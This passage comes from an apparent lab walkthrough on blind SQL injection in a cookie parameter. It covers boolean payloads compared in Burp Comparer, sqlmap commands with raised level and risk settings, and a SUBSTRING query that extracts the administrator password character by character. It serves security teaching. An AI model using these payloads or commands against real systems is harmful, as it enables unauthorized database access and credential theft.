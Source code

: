     ```
    ' AND 1='2;
    ```
    
    Send this response to Comparer as well.
    

**Why use Comparer?**  
Comparer highlights differences, showing how the application reacts to true vs. false conditions. If one response includes "Welcome back" and the other does not, we confirm a blind SQL injection condition.

- Indeed, `1='1` might yield "Welcome back" (and a certain Content-Length), while `1='2` does not.
    
- Without payload: Content-Length = 5338
    
- With `1='1`: Content-Length stays ~5338 and includes "Welcome back"
    
- With `1='2`: Content-Length ~5277 and no "Welcome back"
    

This confirms a working blind SQL injection in the cookie parameter.

## Step 6: Confirming SQL Injection and Using sqlmap

- We save the request as `req.txt` and run:
    
    ```
    sqlmap -r req.txt --level 2 --dbs
    ```
    

**Why `--level 2`?**  
`--level 2` instructs sqlmap to test more parameters, including cookies. If sqlmap says not injectable initially, don’t give up. We have manual proof it is injectable.

**Increasing Risk:** If sqlmap fails at default, try:

```
sqlmap -r req.txt --level 2 --risk 3 --dbs --batch
```

`--risk 3` means sqlmap uses more advanced, potentially noisier tests. `--batch` auto-answers prompts.

_Key Insight:_  
sqlmap doesn’t always succeed at default settings. Manual testing and adjusting `--level` and `--risk` help uncover tricky injections.

## Step 7: SUBSTRING and Extracting the Password

- The instructor explains `SUBSTRING()`:
    
    - `SUBSTRING('foobar',4,2)` → `ba`
    
    Different databases may use `SUBSTR()` or `SUBSTRING()`, but the principle is the same.
    
- Use `SUBSTRING()` to guess the password one character at a time:
    
    ```
    AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
    ```
    